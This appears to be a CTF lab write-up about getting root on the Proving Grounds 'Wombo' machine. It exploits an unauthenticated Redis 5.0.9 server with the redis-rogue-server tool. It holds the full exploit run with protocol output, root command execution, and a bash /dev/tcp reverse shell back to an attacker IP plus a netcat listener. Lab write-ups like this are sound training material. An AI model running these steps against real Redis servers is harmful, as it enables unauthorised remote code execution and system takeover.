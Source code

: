 ```yaml
---
title: "Proving grounds Practice: Wombo"
layout: post
date: 2023-10-21 02:00
categories: writeup
---
```


Proving grounds - Wombo CTF writeup

## Nmap

```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
80/tcp    open  http       nginx 1.10.3
6379/tcp  open  redis      Redis key-value store 5.0.9
8080/tcp  open  http-proxy
27017/tcp open  mongod?
```

## 6379/tcp - open - redis - Redis key-value store 5.0.9

The redis server is vulnerable to [Remote code Execution](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) vulnerability.

Connect to redis server to check if it is password protected or not.

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Wombo$ redis-cli -h 192.168.211.69
192.168.211.69:6379> module list
(empty array)
(0.53s)
192.168.211.69:6379> 
```

The server is not password protected, clone the [GitHub](https://github.com/n0b0dyCN/redis-rogue-server) exploit and follow below steps.

After cloning the repository direct to `/redis-rogue-server/RedisModulesSDK/exp` folder and run `sudo make`. The `exp.so` file will be created and copy the file to the folder where the python exploit code is exists.

## Exploitation

```sh
naveenj@hackerspace:[09:53]~/proving_grounds/Wombo/redis-rogue-server$ python redis-rogue-server.py --rhost 192.168.211.69 --rport 6379 --lhost 192.168.45.243 --lport 80 --exp=exp.so -v
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.211.69:6379
[info] SERVER 192.168.45.243:80
[info] Setting master...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$14\r\n192.168.45.243\r\n$2\r\n80\r\n'
[->] b'+OK\r\n'
[info] Setting dbfilename...
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'*1\r\n$4\r\nPING\r\n'
[<-] b'+PONG\r\n'
[->] b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<-] b'+OK\r\n'
[->] b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<-] b'+OK\r\n'
[->] b'*3\r\n$5\r\nPSYNC\r\n$40\r\n73a8ee0c379f25d3a0d876642411d68a61500ca3\r\n$1\r\n1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$47856\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\xb3\x00\x00\x00\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[info] Loading module...
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[->] b'+OK\r\n'
[info] Temerory cleaning up...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[->] b'+OK\r\n'
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$11\r\nrm ./exp.so\r\n'
[->] b'$1\r\ne\r\n'
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id;whoami;
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$10\r\nid;whoami;\r\n'
[->] b'$45\r\n\x08uid=0(root) gid=0(root) groups=0(root)\nroot\n\r\n'
[>>]uid=0(root) gid=0(root) groups=0(root)
[>>] root
```

**Foothold Obtained**

## Reverse Shell

Bash reverse shell.

```sh
bash -c 'sh -i >& /dev/tcp/192.168.45.243/8080 0>&1';
```

Make sure the netcat listener is running.

```sh
veenj@hackerspace:[09:51]~/proving_grounds/Wombo/redis-rogue-server$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.211.69] 54064
sh: 0: can't access tty; job control turned off
# which python
/usr/bin/python
# python -c 'import pty; pty.spawn("/bin/bash")'
root@wombo:/# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).